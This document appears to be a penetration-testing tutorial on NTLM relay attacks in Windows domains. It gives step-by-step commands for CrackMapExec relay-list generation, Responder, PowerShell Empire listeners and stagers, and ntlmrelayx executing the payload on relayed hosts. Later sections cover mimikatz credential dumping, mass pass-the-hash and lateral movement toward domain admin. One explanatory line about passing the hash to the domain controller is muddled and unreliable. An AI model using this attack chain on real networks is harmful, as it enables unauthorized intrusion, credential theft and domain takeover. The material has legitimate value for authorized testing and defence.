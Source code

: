 ### Responder with NTLM relay attack

byt3bl33d3r is a very prominent figure in this area. He has written some good guides on this attack. Because [b3t3bl33d3r's guide](https://byt3bl33d3r.github.io/practical-guide-to-NTLM-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
) is good I'll try to make it short.

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts  and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:
```
cme smb <CIDR> --gen-relay-list targets.txt
```
Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.


#### Responder

Now in the previous attack Responder had set up an HTTP and SMB server to act as a middleman. We now want to give our captured hashes to NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:
```
Responder -I eth0 -wrf
```
where eth0 is your interface. The -wrf is optional.


#### Empire

Now getting into Empire should take an hour or so to have it all memorized. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/), but a few commands are listed below:

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay

Now perform the actual relaying using ntlmrelay from the Impacket library.


```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

- Trigger a few requests from the Windows machines using the `\\share\` trick.
- Restart all the tools.
- Reset Empire's database.
- Reboot the Windows machines.
- Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

>Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

 What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

 To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

 Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.
